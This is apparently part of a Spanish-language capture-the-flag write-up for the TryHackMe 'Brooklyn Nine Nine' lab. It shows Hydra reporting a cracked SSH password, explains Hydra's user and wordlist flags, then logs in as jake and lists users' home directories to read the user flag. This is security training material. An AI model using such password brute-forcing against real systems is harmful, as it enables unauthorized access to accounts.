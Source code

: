 ```console
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-16 19:32:18
```

Significado de las flags:

* `-l`&nbsp;: usuario para el que queremos encontrar la contraseña.
* `-P`&nbsp;: el diccionario que vamos a utilizar.

Con la contraseña de *jake* nos logamos via ssh.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ ssh jake@10.10.190.53
jake@10.10.190.53's password: 
Last login: Tue Aug 16 17:33:50 2022 from 10.18.34.64
jake@brookly_nine_nine:~$ cd /home
jake@brookly_nine_nine:/home$ ls -la
total 20
drwxr-xr-x  5 root root 4096 May 18  2020 .
drwxr-xr-x 24 root root 4096 May 19  2020 ..
drwxr-xr-x  5 amy  amy  4096 May 18  2020 amy
drwxr-xr-x  6 holt holt 4096 May 26  2020 holt
drwxr-xr-x  6 jake jake 4096 May 26  2020 jake
jake@brookly_nine_nine:/home$ cd amy
jake@brookly_nine_nine:/home/amy$ ls -la
total 32
drwxr-xr-x 5 amy  amy  4096 May 18  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw-r--r-- 1 amy  amy   220 May 17  2020 .bash_logout
-rw-r--r-- 1 amy  amy  3771 May 17  2020 .bashrc
drwx------ 2 amy  amy  4096 May 18  2020 .cache
drwx------ 3 amy  amy  4096 May 18  2020 .gnupg
-rw-r--r-- 1 amy  amy   807 May 17  2020 .profile
drwx------ 2 amy  amy  4096 May 17  2020 .ssh
jake@brookly_nine_nine:/home/amy$ cd /home/holt
jake@brookly_nine_nine:/home/holt$ ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   18 May 26  2020 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
